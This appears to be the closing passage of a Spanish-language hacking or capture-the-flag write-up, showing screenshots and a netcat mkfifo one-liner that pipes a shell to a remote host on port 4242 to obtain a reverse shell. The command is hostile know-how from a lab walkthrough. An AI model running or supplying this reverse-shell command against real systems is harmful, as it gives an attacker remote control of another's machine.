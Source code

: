 ![20231103141807.png](20231103141807.png)

PAra obtener una reverse shell usaremos lo siguiente:

```java
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP] 4242 >/tmp/f
```

![20231103142319.png](20231103142319.png)

¡VAMOS!
Happy Hacking